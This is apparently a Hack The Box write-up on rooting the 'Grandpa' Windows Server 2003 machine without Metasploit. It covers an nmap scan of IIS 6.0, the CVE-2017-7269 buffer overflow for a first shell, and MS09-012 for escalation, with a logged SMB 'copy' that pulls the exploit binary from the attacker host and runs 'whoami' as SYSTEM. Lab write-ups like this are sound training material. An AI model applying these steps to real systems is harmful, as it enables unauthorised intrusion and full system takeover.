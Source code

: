 ```yaml
---
layout: post
title: Grandpa without metasploit
date: 2020-04-1
author: th3-3inst3in
comments: true
categories: htb
tags: [Windows,htb]
---
```


## Grandpa without metasploit

So I thought time to shift focus from metasploit and try to do machines without metasploit. I'll admit it took wayy longer and many many failed attempts before I finally got root. Hope ya'll learn some new tricks form this writeup

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/main.png)


Let's do a quick nmap all ports

```perl

Nmap scan report for 10.10.10.14
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Fri, 03 Apr 2020 18:34:04 GMT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

<br>

### Enumeration

- So I search for IIS 6 vulnerabilites and mainly found 2 things 
- 1) Web Dav exploit
- 2) The BufferOver flow exploit, since I used the webdav one in granny htb machine, thought I'd try buffer over flow so I found an exploit for it on github.
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell  





### Exploitation


Using the iis6 buffer overflow exploit I got an inital shell on the Windows box

![initial shell]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/shell1.png)


Now I won't lie Priv esec was a bitch, took hours. What I am presenting here is the final version of what happened but originally I hit many dead ends and restarted the machine about 10 times or more.

- So started off using Windows Exploit suggester which requires us to save the systeminfo in a text file and feed that as an arguments to find known exploits for that version of the OS.


```perl
sysinfo 
C:\wmpub\test>systeminfo 
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 11 Minutes, 18 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 796 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,327 MB
Page File: In Use:         143 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A

```

![Windows exploit suggester]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/exploit-suggest.png)


- after many a failed exploits I finally found MS09-012 and it worked landing me in a system shell
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012  

- Downloaded the pr.exe file and transfered it to the victim using impacket smbserver

- the smb share can easily be accessed using copy command from the prompt 

>Prompt> copy \\<IP>\test\pr.exe .


![smbserver]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/smbserver.png)



- after copied on the victim it can be used as follows : pr.exe "command"

```perl
C:\wmpub\test>copy \\10.10.14.18\test\pr.exe .    
copy \\10.10.14.18\test\pr.exe .
        1 file(s) copied.

C:\wmpub\test>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\wmpub\test

04/04/2020  10:48 AM    <DIR>          .
04/04/2020  10:48 AM    <DIR>          ..
04/04/2020  10:42 AM            73,728 pr.exe
               1 File(s)         73,728 bytes
               2 Dir(s)  18,093,436,928 bytes free

C:\wmpub\test>pr.exe "whoami"
pr.exe "whoami"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1864 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:whoami
nt authority\system

C:\wmpub\test>whoami
whoami
nt authority\network service

C:\wmpub\test>

```




![system]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/system.png)

phew! we otta do more of these non msf ctfs.